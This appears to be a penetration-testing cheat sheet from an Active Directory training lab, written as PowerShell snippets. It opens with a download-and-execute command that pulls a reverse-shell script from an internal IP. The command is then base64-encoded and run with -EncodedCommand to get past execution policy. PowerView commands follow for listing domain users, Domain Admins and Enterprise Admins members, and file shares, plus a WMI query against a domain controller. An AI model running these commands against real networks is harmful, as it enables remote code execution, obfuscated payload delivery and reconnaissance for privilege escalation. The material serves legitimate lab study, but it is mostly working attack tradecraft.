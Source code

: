 Encode:
```
$command = 'IEX (New-Object Net.WebClient).DownloadString("http://172.16.100.55/Invoke-PowerShellTcpRun.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
```

Encode existing script, copy to clipboard:
```
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes('c:\path\to\PowerView.ps1')) | clip
```
Run it, bypassing execution policy.
```
Powershell -EncodedCommand $encodedCommand
```
If you have Nishang handy, you can use Invoke-Encode.ps1.

## WMI Commands
```
gwmi -Class win32_computersystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

# Enumeratiom

## PowerView
### General
Get user current domain:
```
Get-NetUser | select -ExpandProperty cn
```
Get all computers in current domain:
```
Get-NetComputer
Get-NetForestDomain  
```
Get all user groups:
```
Get-NetGroup
```
Get Domain Admins attributes
```
Get-NetGroup -GroupName 'Domain Admins' -FullData
```
Get members of the Domain Admins group
```
Get-NetGroupMember -GroupName "Domain Admins" | select -ExpandProperty membername
Get-NetGroupMember -GroupName 'Domain Admins'   
```
Get members of the Enterprise Admins group
```
Get-NetGroupMember -GroupName 'Enterprise Admins'           
```
Since this is not a root domain, the above command will return nothing. We need to query the root domain as Enterprise Admins, group is only present in the root of a forest.
```
Get-NetGroupMember -GroupName 'Enterprise Admins'-Domain moneycorp.local
```
Find shares in the domain, ignore default shares:
```
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC
```
